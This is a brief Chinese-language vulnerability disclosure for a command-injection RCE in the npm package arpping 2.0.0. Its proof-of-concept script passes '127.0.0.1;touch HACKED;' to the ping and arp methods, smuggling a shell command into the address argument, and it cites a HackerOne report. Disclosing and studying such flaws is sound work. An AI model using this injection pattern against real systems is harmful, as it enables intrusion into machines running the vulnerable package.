

# arpping 2.0.0 远程代码执行（RCE）

arpping是一个软件包，使用ping和arp查找并搜索与Internet连接的设备（本地）。

npm页面： https://www.npmjs.com/package/arpping

**PoC：**

创建一个index.js

```js
const Arpping = require('arpping');

var arpping = new Arpping();
arpping.ping(["127.0.0.1;touch HACKED;"]); // arpping.arp(["127.0.0.1; touch HACKED;"]);
```




ref：

https://hackerone.com/reports/972220